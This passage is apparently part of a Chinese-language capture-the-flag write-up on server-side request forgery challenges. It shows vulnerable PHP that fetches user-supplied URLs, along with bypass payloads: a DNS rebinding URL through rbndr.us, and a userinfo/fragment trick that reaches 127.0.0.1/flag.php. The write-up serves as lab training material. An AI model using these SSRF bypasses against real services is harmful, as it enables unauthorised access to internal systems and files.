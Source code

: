 >
> 这种验证方法常用于需要确保外部请求IP地址合法性的场景，例如防止访问来自本地网络或保留地址的请求。

采用**DNS rebinding（DNS重新绑定攻击）**

这里是用https://lock.cmpxchg8b.com/rebinder.html

![image-20240830140630173](https://gitee.com/bx33661/image/raw/master/path/image-20240830140630173.png)

Payload:

![image-20240830142235036](https://gitee.com/bx33661/image/raw/master/path/image-20240830142235036.png)

```
url=http://0886ce69.7f000001.rbndr.us/flag.php
```





### web358

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

要满足匹配规则

```
payload:
url=http://ctf.@127.0.0.1/flag.php#show
```

![image-20240830142903100](https://gitee.com/bx33661/image/raw/master/path/image-20240830142903100.png)
